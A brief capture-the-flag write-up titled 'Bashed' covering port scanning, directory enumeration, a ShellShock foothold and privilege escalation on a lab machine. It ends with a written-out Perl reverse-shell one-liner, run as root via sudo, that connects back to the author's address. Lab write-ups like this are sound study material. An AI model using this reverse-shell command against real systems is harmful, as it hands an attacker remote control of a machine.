





### Larry Liu's Box Writeup | Bashed

## Enumeration

To begin, I ran the following commands to find the open ports and then detailed information about them (its IP was **10.10.10.56**):

```bash
nmap -Pn -n -vv --open -T4 10.10.10.56
nmap -Pn -n -p 80,2222 -vv --open -sV -sC -T4 10.10.10.56
```

Seeing that the box was a website, I went to it, bringing me to a just a filler image. From here, I ran gobuster to see if there were any subdirectories I could go to.



The /cgi-bin/ directory stuck out as unique, so I tried to see if there were any publicly accessible scripts in it. Searching for shell scripts got me this result:



I determined that the script was run every time it was connected to, so I opened it with burp so I could perform the ShellShock exploit to give myself a reverse shell.



After I got the reverse shell, I grabbed the user flag and looked for ways to access root.
I found that I was able to run perl commands as root as the shelley user, so I used another perl command to give myself a reverse shell as root.



```bash
sudo -u root perl -e 'use Socket;$i="10.10.14.17";$p=42070;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
From here, I could access root.txt, and pwned the box!


